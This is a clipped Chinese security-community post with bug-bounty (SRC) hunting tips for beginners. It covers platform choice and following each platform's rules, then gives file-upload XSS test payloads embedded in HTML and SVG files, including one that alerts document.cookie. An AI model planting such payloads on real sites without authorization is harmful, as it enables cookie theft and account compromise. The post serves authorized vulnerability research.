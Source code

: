 ```yaml
---
title: src 挖掘技巧总结分享 - 先知社区
url: https://xz.aliyun.com/t/14211
clipped_at: 2024-04-01 16:10:09
category: default
tags: 
 - xz.aliyun.com
---
```



# src 挖掘技巧总结分享 - 先知社区

### src 挖洞技术分享

```plain
src推荐刚入门的新手首选公益src如漏洞盒子、补天src，因为漏洞盒子收录范围广，只要是国内的站点都收入，相比其它src平台挖掘难度非常适合新手。后续可以尝试先从一些小的src厂商入手。
首先是熟能生巧，我一开始挖洞的时候，是先从教育edusrc,cnvd平台进行挖掘漏洞，但这种打法如果放到src，我打的很吃力，因为前者基本都是拿网上公开的nday打，而后者全是技巧和思路。
在挖掘src的同时，必须读懂src平台的规则，千万不得越红线，同时也要熟悉src平台的收录规则，收录那些漏洞，不然挖到后发现被忽略，这样就前功尽弃了
```

## 文件上传

##### 嵌套 xss 语句

svg、pdf、html、xml

```plain
<!DOCTYPE html>
<html>
    <head>
        <title></title>
        <meta charset="utf-8">
        <script type="text/javascript">
            alert("testxss"); 
        </script>
    </head>
    <body>
```

\**svg*

```plain
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
   <circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="red" />
   <script>alert(1)</script>
</svg>

<?xml version=”1.0" standalone=”no”?>
<!DOCTYPE svg PUBLIC “-//W3C//DTD SVG 1.1//EN” “http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"><svg version=”1.1" baseProfile=”full” xmlns=”http://www.w3.org/2000/svg">
<polygon id=”triangle” points=”0,0 0,50 50,0" fill=”#009901" stroke=”#004400"/>
<script type=”text/javascript”>
alert(document.cookie);
</script>
</svg>
```
